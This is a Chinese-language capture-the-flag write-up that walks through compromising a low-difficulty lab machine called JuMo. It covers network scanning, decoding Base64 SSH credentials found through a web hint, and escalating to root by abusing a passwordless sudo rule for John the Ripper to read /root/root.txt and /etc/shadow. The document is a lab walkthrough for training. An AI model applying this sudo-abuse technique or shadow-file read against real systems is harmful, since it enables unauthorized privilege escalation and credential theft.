 # 1. 简介

- 靶机名称: JuMo (未发布，内部测试靶机，可能后续发布于 HackMyVm)
- 难度: 低 (Low)
- 目标 IP: 192.168.205.182 (通过 arp-scan 发现)
- 攻击机 IP: 192.168.205.128
- 目标: 获取目标系统的 root 权限并找到 flag。

# 2. 信息收集 (Enumeration)

## 2.1. 主机发现

首先，使用 arp-scan 在本地网络中发现目标主机的 IP 地址。

```bash
┌──(kali㉿kali)-[~/test]
└─$ sudo arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:64:60:b9, IPv4: 192.168.205.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
# ... (其他输出) ...
192.168.205.182 08:00:27:ff:bf:ce       PCS Systemtechnik GmbH #<-- 目标主机
# ... (其他输出) ...
Ending arp-scan 1.10.0: 256 hosts scanned in 2.033 seconds (125.92 hosts/sec). 4 responded
```

确认目标 IP 为 192.168.205.182。

## 2.2. 端口扫描

使用 nmap 对目标主机进行全端口扫描，以识别开放的服务。

```bash
┌──(kali㉿kali)-[~/test]
└─$ nmap -p- 192.168.205.182
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-11 08:46 CST
Nmap scan report for 192.168.205.182
Host is up (0.00022s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh     #<-- SSH 服务开放
80/tcp open  http    #<-- HTTP 服务开放
MAC Address: 08:00:27:FF:BF:CE (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.47 seconds
```

扫描结果显示目标开放了 22 (SSH) 和 80 (HTTP) 端口。

# 3. 获取初始访问权限 (Initial Foothold)

## 3.1. Web 服务探测

访问目标主机的 80 端口（ http://192.168.205.182 ）。

![image-20250411084817446](https://raw.githubusercontent.com/7r1UMPH/7r1UMPH.github.io/main/static/image/20250411084824566.png)

这个提示我们在 hackmyvm 平台上查找一个名为 check 的用户。

## 3.2. 信息挖掘

在 HackMyVm 网站上搜索用户 check。

![image-20250411085044849](https://raw.githubusercontent.com/7r1UMPH/7r1UMPH.github.io/main/static/image/20250411085044939.png)

找到了该用户的个人资料，其中包含一个外部链接。访问该链接：

![image-20250411085314126](https://raw.githubusercontent.com/7r1UMPH/7r1UMPH.github.io/main/static/image/20250411085314150.png)

页面上有一串 Base64 编码的字符串 d2VsY29tZTpqdW1v。对其进行解码：

```bash
┌──(kali㉿kali)-[~/test]
└─$ echo 'd2VsY29tZTpqdW1v' | base64 -d
welcome:jumo
```

解码后得到 welcome:jumo，这很可能是一对 SSH 登录凭据（用户名:密码）。

## 3.3. SSH 登录

使用获取到的凭据尝试 SSH 登录：

```bash
┌──(kali㉿kali)-[~/test]
└─$ ssh welcome@192.168.205.182
# ...(SSH 连接确认)...
Password: # 输入密码 jumo
Linux JuMo 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64
# ... (欢迎信息) ...
welcome@JuMo:~$ id
uid=1000(welcome) gid=1000(welcome) groups=1000(welcome)
```

成功以 welcome 用户身份登录系统。

# 4. 权限提升 (Privilege Escalation)

## 4.1. Sudo 权限检查

检查 welcome 用户拥有的 sudo 权限：

```bash
welcome@JuMo:~$ sudo -l
Matching Defaults entries for welcome on JuMo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User welcome may run the following commands on JuMo:
    (ALL : ALL) NOPASSWD: /usr/sbin/john   #<-- 可以免密以 root 权限执行 john
```

输出显示 welcome 用户可以无需密码 (NOPASSWD) 以任何用户 (ALL:ALL) 的身份执行 /usr/sbin/john 命令。john (John the Ripper) 是一个密码破解工具。

## 4.2. 利用 Sudo 权限

由于可以以 root 身份执行 john，并且 /root 目录下的文件通常只有 root 用户可读，我们可以尝试利用 john 读取 /root 目录下的文件。

### 方法一：直接读取可能的 Flag 文件 (我的方法)

已知 /root/root.txt 包含了 flag。虽然 john 的 --wordlist 选项通常用于指定密码字典，但配合 --stdout 选项，john 会将 wordlist 的内容（或生成的候选密码）打印到标准输出。利用 sudo 权限，这可以用来读取 root 权限才能访问的文件内容。

```bash
welcome@JuMo:~$ sudo /usr/sbin/john --wordlist=/root/root.txt --stdout
Press 'q' or Ctrl-C to abort, almost any other key for status
flag{521ca933d6e159a50c2c04e7daa930f6}  #<-- 读取并输出了 /root/root.txt 的内容
1p 0:00:00:00 100% 100.0p/s flag{521ca933d6e159a50c2c04e7daa930f6}
```

此命令成功读取了 /root/root.txt 文件，内容即为 flag。

### 方法二：读取可能的 Flag 文件 (ta0神的方法)

```bash
welcome@JuMo:~$ sudo /usr/sbin/john /etc/shadow --wordlist=/root/root.txt
Loaded 2 password hashes with 2 different salts (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 100% 0g/s 100.0p/s 200.0c/s 200.0C/s flag{521ca933d6e159a50c2c04e7daa930f6} 
Session completed
```

## 4.3. 获取 Root 权限

根据群主提示我们可知root密码为root flag

```bash
welcome@JuMo:~$ su -
Password: # 输入 521ca933d6e159a50c2c04e7daa930f6
root@JuMo:~# id
uid=0(root) gid=0(root) groups=0(root)
root@JuMo:~# cat /root/root.txt
flag{521ca933d6e159a50c2c04e7daa930f6}
```

成功获取 root 权限。最终的 flag 存储在 /root/root.txt 中。

# 5. 总结

本次渗透测试通过以下步骤完成：

1. 信息收集: 使用 arp-scan 和 nmap 发现目标主机及其开放的 SSH 和 HTTP 服务。
2. 初始访问: 分析网页源代码，发现指向 HackMyVm 用户 check 的线索，进而找到其外部链接中的 Base64 编码凭据，成功通过 SSH 登录 welcome 用户。
3. 权限提升: 发现 welcome 用户可通过 sudo 免密执行 john 命令。利用此权限，通过 john --wordlist=/root/root.txt --stdout 直接读取了 /root/root.txt 中的 flag，或者通过 john /etc/shadow --wordlist=/root/root.txt 破解出 root 密码（密码恰好是 flag），最终使用 su 命令切换到 root 用户。

靶机设计巧妙，利用了信息泄露和 sudo 配置不当的漏洞，难度符合 Low 级别。